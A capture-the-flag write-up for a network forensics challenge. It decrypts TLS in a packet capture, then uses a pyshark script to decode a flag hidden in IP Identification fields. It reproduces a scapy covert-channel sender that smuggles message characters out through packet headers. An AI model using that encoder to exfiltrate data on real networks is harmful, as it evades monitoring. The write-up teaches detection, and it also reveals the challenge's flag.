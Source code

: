 # covert
>It appears there's been some shady communication going on in our network...

To start, we're given a pcap(ng) file and a keys.log file, so that should tell us we're gonna be fiddling with Wireshark. 

Opening up Wireshark, we see a lot of TLS packets and not a lot of HTTP so we configure the keys.log file in our Wireshark settings to decrypt this TLS for us. Now the beautiful greens of the HTTP packets are visible! 

Filtering to HTTP packets (of which there are only 6), we spot something interesting, looks like 172.20.10.5 was served a sneakly little python script

![image](https://github.com/user-attachments/assets/0d268e2e-b0c6-4c5d-b68b-a5c8c42cab79)


```python3
from scapy.all import IP, TCP, send
key = ??
dst_ip = "X.X.X.X"
dst_port = ?????
src_ip = "X.X.X.X"
src_port = ?????
def encode_message(message):
    for letter in message:
        ip = IP(dst=dst_ip, src=src_ip, id=ord(letter)*key)
        tcp = TCP(sport=src_port, dport=dst_port)
        send(ip/tcp)
encode_message("????????????")
```

The same host is also browsing a firsmonday.org article about Covert channels in the TCP/IP protocol suite over HTTP2 (hmm I wonder what this challenge will be about)

We now know to be suspicious about 172.20.10.5's requests over TCP, and if they're using the python script they fetched previously, they're using a 2-digit key to encode their secret messages in the IP section of the TCP packet. The encoding takes a single letter of their message, converts it to unicode (decimal ASCII representation), and multiplies it by their key.

The next thing to do is to start snooping around 172.20.10.5's TCP connections and pay extra attention to the IP header contents

![Peek 2024-09-20 02-26](https://github.com/user-attachments/assets/ee704806-84af-4299-9607-5ca6f005c980)

Ain't that strange... Looks like there's something going on with the Identification field. Let's analyze this bad boy in Python and see what kappens

```python3
import pyshark

def IPidTCPCovertChannel(packets_of_interest: list[int], flag_format: str, keylog_file: str=None) -> str:
    if keylog_file:
        cap = pyshark.FileCapture("chall.pcapng", override_prefs={"ssl.keylog_file": keylog_file})
    else:
        cap = pyshark.FileCapture("chall.pcapng")

    ip_ids_hex = []
    for idx in packets_of_interest:
        try:
            ip_ids_hex.append(cap[idx].ip.id)
        except AttributeError:
            pass

    #assuming this will give us the flag outright, we know it starts with csaw{ and ends with }
    str_ = ""
    for idx in range(len(ip_ids_hex)):
        #convert hex str ip_id_hex to decimal number ip_id_dec
        ip_id_dec = int(ip_ids_hex[idx], 16)
        #0 is divisible by everything and if we let a zero pass, we're gonna get a divide by zero error, so let's ignore naughty zeros
        if not ip_id_dec: continue
        #we're working with factors of idx, ensure that ip_id is divisible by idx
        if ip_id_dec % ord(flag_format[0]) == 0:
            key = ip_id_dec // ord(flag_format[0])
            if chr(ip_id_dec // key) == flag_format[0]: break
            #TODO may want to store all potentially valid keys in an array in case of false positives

    for idx in range(idx, len(ip_ids_hex)):
        str_ += chr(int(ip_ids_hex[idx], 16) // key)
        if str_[-1] == "}": break

    print(str_)

    return str_

if __name__ == "__main__":
    packets_of_interest = list(range(256, 306))
    flag_format = "csawctf{"
    keylog_file = "keys.log"
    flag = IPidTCPCovertChannel(packets_of_interest, flag_format, keylog_file=keylog_file)
```

Since we know the flag should start with 'c' (unicode 99), we can go letter by letter, checking if our encoded characters are divisible by 99 and, if so, check if the ASCII representation of said division is the character 'c'. If so, it's probably our flag. And just like magic, after running the script, we get: csawctf{licen$e_t0_tr@nsmit_c0vertTCP$$$}

